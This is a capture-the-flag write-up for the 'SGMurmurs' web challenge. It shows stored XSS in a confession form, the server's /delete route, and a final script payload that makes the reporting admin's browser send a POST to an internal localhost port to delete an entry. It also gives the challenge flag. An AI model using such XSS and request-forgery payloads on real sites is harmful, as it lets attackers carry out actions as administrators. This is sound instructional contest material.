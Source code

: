 # [Web] SGMurmurs

## Description

Sometimes you regret your own confession and want to delete it before Prof Ben reads it, but you ain't got the access

Sometimes you don't need the access, when you can get someone else to do it for you ;)

Delete your own confession to get the flag!

Visit SGMurmurs today!

![SGMurmurs](images/SGMurmurs01.png)

😳

## Walkthrough

Seems like we are able to add "Confesssions" which can then be "reported" to an admin. 🤔 Immediately we think of client-side attacks such as XSS or CSRF.

The goal is to get the admin to delete a submitted confession, which will have a UUID tied to it. Each UUID is also stored as a session cookie.

Upon submitting a confession, we get directed to `/viewpage` which contains the current session's confession:

![SGMurmurs](images/SGMurmurs02.png)

There is also a way to send this confession to the admin by clicking on the "report" link.

Observe that the confession form is vulnerable to XSS. So we can enter something like:

```js
<script>
    alert(1);
</script>
```

![SGMurmurs](images/SGMurmurs03.png)

Also, the source code for this application is given. Let us find if there is a function for the admin to delete our confession:

```js
app_flag.post('/delete', (req, res) => {
    // force a preflighted fetch using custom header so Access-Control-Allow-Methods is enforced
    if (req.header('X-NO-POST') !== 'true') {
        res.status(500).send('Not allowed, very illegal, calling polis');
    } else {
        let uuid = req.body.uuid;
        if (uuid in DATABASE) {
            let entry = DATABASE[uuid];
            entry.deleted = true;
            res.end('Deleted.')
        } else {
            res.status(404).send('Entry not found.')
        }
    }
});
```

However, this routing belongs to `app_flag` which is another application located at the server's port `12345`. This means that we need to send a HTTP `POST` request to `http://localhost:12345/delete` in order to reach the function above to delete our confession.

There is another constraint, that is that the request must contain the header `X-NO-POST` set to `true`. We also need to supply the `uuid` in the request body.

We now have a clear path of attack:
1. XSS the confession form and "report" it to the admin, triggering a visit to the `/viewpage` which triggers our payload.
2. Payload must make a `POST` request to `http://localhost:12345/delete` containing the `X-NO-POST` header and the `uuid` to delete.

We can obtain the `uuid` from the `/viewpage` itself:

```js
let uuid = $( "#uuid" ).html().split("#")[1];
```

Now, the final payload is as such:

```js
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('POST', 'http://127.0.0.1:12345/delete', true);
    xhr.setRequestHeader('X-NO-POST', 'true');
    xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    let uuid = $( "#uuid" ).html().split("#")[1];
    xhr.send('uuid='.concat(uuid));
</script>
```

After sending this confession, we `/report` it and `/view` it:

![SGMurmurs](images/SGMurmurs04.png)

Giving us the flag: `CTFSG{admin_please_update_the_page_more_frequently_thanks}`
